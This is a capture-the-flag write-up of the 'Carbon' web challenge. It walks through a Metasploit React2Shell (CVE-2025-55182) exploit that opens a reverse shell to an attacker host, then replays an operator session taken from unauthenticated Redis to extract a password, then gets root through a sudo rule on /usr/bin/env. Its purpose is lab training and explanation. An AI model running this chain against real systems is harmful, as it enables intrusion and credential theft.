

# Carbon — Writeup

**CTF:** Platypwn 2026  
**Category:** Web / Privilege Escalation  
**Target:** `10.83.21.37:3000`  
**Result:** User + Root

## 1. First look — Next.js looks interesting



At first, I opened the challenge website. It looked like a normal emissions reporting portal, and there was a form to request a report.

But I noticed something at the bottom of the page:

> Carbon portal 2.4.1 · built with Next.js 15.5.6

Seeing **Next.js 15.5.6**, I started thinking about **Next2Shell / React2Shell**. React Server Components had a known unauthenticated RCE issue, so I thought this version might be a good target. I decided to check it before spending too much time on the report form.

## 2. Getting RCE with React2Shell

I found a Metasploit module for **CVE-2025-55182**:

```text
exploit/multi/http/react2shell_unauth_rce_cve_2025_55182
```

I used the Next.js Unix target and set the portal path to `/portal`.

```text
msfconsole
use exploit/multi/http/react2shell_unauth_rce_cve_2025_55182
set RHOSTS 10.83.21.37
set RPORT 3000
set SSL false
set TARGETURI /portal
set TARGET 0
set LHOST 10.82.1.68
set LPORT 4444
check
```

The check returned:

```text
[+] 10.83.21.37:3000 - The target appears to be vulnerable.
```

Nice. Then I ran the exploit:

```text
exploit
```

```text
[*] Started reverse TCP handler on 10.82.1.68:4444
[+] The target appears to be vulnerable.
[*] Command shell session 1 opened
```

I checked the shell:

```bash
whoami
# nextjs

id
# uid=1001(nextjs) gid=1001(nextjs) groups=1001(nextjs)

pwd
# /srv/portal
```

So the RCE worked, but I was only `nextjs`.

## 3. Looking around the application

I tried to read the user flag directly:

```bash
cat /home/operator/user.txt
# Permission denied
```

The `operator` home directory was also not readable by `nextjs`.

```text
drwxr-x--- ... operator operator ... /home/operator
```

I checked `/srv/portal` and found `package.json`, `server.js`, `.env.local`, and the compiled `.next` files. The dependencies confirmed the versions:

```json
{
  "next": "15.5.6",
  "react": "19.2.0",
  "react-dom": "19.2.0"
}
```

I also checked the report form's compiled Server Action in `.next/server/app/page.js`. Interestingly, the action only checked the account, quarter, and report type, and returned a message saying the report was queued. It did not actually call a database or a queue in that code.

So the report form was not the useful path for privilege escalation. I changed my focus to the system configuration.

## 4. Finding the operator password mechanism

I looked at `/entrypoint.sh`:

```bash
cat /entrypoint.sh
```

This part was very interesting:

```bash
OP_PASSWORD="$(printf 'carbon-operator:%s' "$FLAG_USER" | sha256sum | cut -c1-24)"
printf 'operator:%s\n' "$OP_PASSWORD" | chpasswd
```

The `operator` password was generated from the personalized user flag. But the flag itself was protected, and the script removed the secret environment variables before starting Next.js.

Then I found another important part:

```bash
envsubst '${CACHE_ADDR} ${CACHE_HOST} ${CACHE_PORT} ${API_ADDR}' \
  < /opt/carbon/ops-notes.md.tmpl > /opt/carbon/ops-notes.md
chmod 0644 /opt/carbon/ops-notes.md
```

The generated ops note was world-readable. So I read it:

```bash
cat /opt/carbon/ops-notes.md
```

It explained that the internal admin API gives out the operator password to a valid operator session. The session token was stored in Redis:

```text
Redis: 127.0.0.1:6379
key: session:operator
API: http://127.0.0.1:9000/admin/operator-credential
```

This was basically the next step written in the note. The problem was that Redis had no authentication, even though a lower-privileged web process could reach it.

## 5. Replaying the cached operator session

First, I checked Redis:

```bash
redis-cli -h 127.0.0.1 -p 6379 PING
# PONG

redis-cli -h 127.0.0.1 -p 6379 TTL session:operator
# 177
```

The token was still valid. I read it and sent it to the internal API as a bearer token:

```bash
TOKEN=$(redis-cli -h 127.0.0.1 -p 6379 --raw GET session:operator)

curl -sS \
  -H "Authorization: Bearer $TOKEN" \
  http://127.0.0.1:9000/admin/operator-credential
```

The API returned the operator's OS password. I used it with:

```bash
su - operator
```

And it worked!

```bash
whoami
# operator

id
# uid=1002(operator) gid=37(operator) groups=37(operator)

cat /home/operator/user.txt
```

**User flag:**

```text
PP{c4rb0n_c4ch3d_s3ss10n_r3pl4y::7ELRfdn244nl}
```

## 6. From operator to root

The ops note also had this TODO:

```text
- [ ] drop the temporary sudo rule for operator once the env check script exists
```

That sounded suspicious, so I checked the sudo permissions:

```bash
sudo -l
```

The result was:

```text
User operator may run the following commands:
    (root) NOPASSWD: /usr/bin/env
```

Oh, `env` can execute another program. So allowing it through sudo without restricting arguments is almost the same as allowing arbitrary commands as root.

I tried:

```bash
sudo /usr/bin/env /bin/bash
whoami
# root
```

It worked immediately. Finally:

```bash
cat /root/root.txt
```

**Root flag:**

```text
PP{0p3r4t0r_3nv_1s_r00t::1JRiTFCQR2ck}
```

## 7. Summary

The full attack chain was:

```text
Next.js 15.5.6 noticed on the website
    |
    v
React2Shell (CVE-2025-55182)
    |
    v
RCE as nextjs
    |
    v
Read /opt/carbon/ops-notes.md
    |
    v
Unauthenticated Redis: session:operator
    |
    v
Replay bearer token to internal admin API
    |
    v
Get operator password and su to operator
    |
    v
sudo /usr/bin/env /bin/bash
    |
    v
root
```

There were three security problems chained together:

1. **Initial RCE:** the vulnerable React Server Components / Next.js setup allowed unauthenticated command execution.
2. **Session exposure:** the operator session was stored in Redis without authentication and could be reused by the compromised `nextjs` user to get an OS password.
3. **Unsafe sudo rule:** `operator` could run `/usr/bin/env` as root without a password, and `env` could launch a root shell.

I first thought the report request form might be the main point of the challenge, but it was not. The footer version was the real starting hint, and after the RCE, the ops note connected everything.

It was a nice example of how one web vulnerability can become full root access when internal trust boundaries are weak.
